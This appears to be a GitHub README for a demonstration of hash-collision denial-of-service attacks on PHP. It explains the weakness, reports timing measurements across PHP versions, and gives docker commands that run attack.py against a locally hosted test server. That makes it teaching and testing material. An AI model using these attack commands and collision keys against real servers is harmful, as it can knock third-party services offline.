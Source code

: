 # Simulate Hash Collision Attack on a PHP Server

Checkout the [associated blog post](http://lukasmartinelli.ch/web/2014/11/17/php-dos-attack-revisited.html).

## How it works

PHP hashtables are vulnerable to complexity attacks. Every function
that takes external input and parses in a PHP hashtable is therefore
vulnerable to complexity attacks.

![Insert Animation](http://lukasmartinelli.ch/media/hash-collisions.gif)

## Test PHP vulnerabilities to Collision Attacks

In the directory `test` there are PHP scripts that demonstrate vulnerabilities of
functions that use the PHP map.

The file `collision_keys_small.txt` contains only 10k entries.
If you want to test out the real deal you should try these attacks
with `collision_keys.txt` (64k entries).

### Run tests

Run tests for inserting colliding keys into array:

```
docker run -it \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/array.php collision_keys.txt
```

Run tests for calling `json_decode` for JSON key-value pairs with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/json_decode.php collision_keys.txt
```

Run tests when `unserializing` an array with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/unserialize.php collision_keys.txt
```

#### Different PHP versions

Docker tags for official Docker PHP image:

- `5.4.43-cli`
- `5.5.27-cli`
- `5.6.11-cli`
- `7.0.0beta2-cli`

#### Measurements

Median in `seconds` of 100 samples for each measurement on a `m1.medium` instance.
Note that this is only a portion of evil keys consisting out of 10k keys.
Imagine what 64k evil keys kan do. 

**Good:**

PHP Version | `array`     | `json_decode` | `unserialize`
------------|-------------|---------------|----------------
5.4.43      | 0,0033      | 0,0022        | 0,0022
5.5.27      | 0,0034      | 0,0019        | 0,0022
5.6.11      | 0,0054      | 0,0019        | 0,0022
7.0.0beta2  | 0,0009      | 0,0009        | 0,0008

**Evil:**

PHP Version | `array`     | `json_decode` | `unserialize`
------------|-------------|---------------|----------------
5.4.43      | 1,2470      | 1,3896        | 1,3896
5.5.27      | 1,2355      | 1,4049        | 1,2786
5.6.11      | 1,2487      | 1,3999        | 1,3203
7.0.0beta2  | 0,3711      | 0,3737        | 0,3718


## Plot time difference

You can generate the plot data used for the diagrams by yourself:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php plot/json_decode.php collision_keys.txt
```

![json_decode time compared for collisions](/plot/json_decode_time.png)

## Run the server

```bash
docker run -it --rm -p 8080:80 -v "$PWD"/server:/var/www/html php:5.6-apache
```

Docker will map the port `80` of the webserver to `8080`.
Therefore you can visit your site at `localhost:8080`.

## Run a Hash Collision Attack

The `attack.py` script will make parallel requests (amount can be specified with `--count`)
to a URL endpoint. It reads collisions from given text file and tries to do a
Hash collision Attack with them. You can set the attack type to either use form fields
or a json map.


Make 100 good normal requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json --no-collide
```

Make 100 bad requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json
```

You can also run the form based attack (which has been fixed by an Appache workaround).

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100
```

